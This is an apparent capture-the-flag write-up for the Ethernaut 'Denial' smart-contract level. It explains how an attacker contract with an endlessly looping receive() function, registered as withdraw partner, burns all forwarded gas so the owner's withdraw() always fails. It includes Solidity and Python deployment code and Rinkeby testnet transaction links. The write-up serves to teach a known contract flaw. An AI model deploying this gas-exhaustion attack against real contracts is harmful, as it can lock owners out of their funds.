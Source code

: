 # Denial

## Objectives

If you can deny the owner from withdrawing funds when they call withdraw() (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

## Solution

The message call in the Denial contract does not specify an amount of gas, so we can define a `receive()` fallback function in our attacker contract that will be so expensive that unless the `partner` address is changed, it will not be possible to call the `withdraw()` function.

1. Code and deploy an attacker contract. The attacker should have a `receive()` fallback function that runs some set of instructions that are extremely expensive.

2. Make the attacker contract `partner` through the `setWithdrawPartner()` function.

If a specific amount to spend had been set, execution would not halt and the `transfer()` function in line 24 would have executed without issues.

## How I did it

1. I coded and deployed (at: `0x5708A3c4d9472B9D6951200c6d6C2FB82ef96c50`) an attacker contract with a `receive()` fallback function defined as follows:

```js
receive() external payable {
    while (true) {
        foreverLooping += 1;
        if (foreverLooping > 0) {foreverLooping = 0;}
    }
}
```

Where `foreverLooping` is a state variable:

```js
uint256 private foreverLooping;
```

In python:

```python
denialattack = DenialAttack.deploy(denial.address, _from)
```


2. I made the contract `partner` through a function inside the contract I defined which calls `setWithdrawPartner()` in Denial through an interface:

```js
function setThisAsWithdrawPartner() public {
    denialContract.setWithdrawPartner(address(this));
}
```

Where `denialContract` is the interface object.

In python:

```python
denialattack.setThisAsWithdrawPartner(_from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0xdee6f9ca64398992a8f98aecdbaab5ffa3e411ae9b104b4e06b677fb4aa1731c

3. I tested calling the `withdraw()` function myself within a try-except block, since I usually get an `RPCRequestError` when trying to access the `revert_msg` attribute of a reverted transaction. However, if I did get the `revert_msg` anyway, this would also still work:

```python
# test withdraw() to see if the tx fails
try:
    tx = denial.withdraw(_from | {'allow_revert':True})
    # fail tx assertion
    fail_tx_assertion = False

except:
    # fail tx assertion
    fail_tx_assertion = True

print(f"The transaction failed/reverted: {fail_tx_assertion}")
```

With this call, I determine through the assertion if the action of the challenge instance will work or not.

Block explorer: https://rinkeby.etherscan.io/tx/0xdc37b616c23234b2f87eaeda94715482580a129c6ce2bad5f28a77aefd5b79c7 (reverted tx)

### Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0x778e0059d279b716c24808fd4ecc2ea79ca6b7396ee05da2e7ed35ea6ca3733b

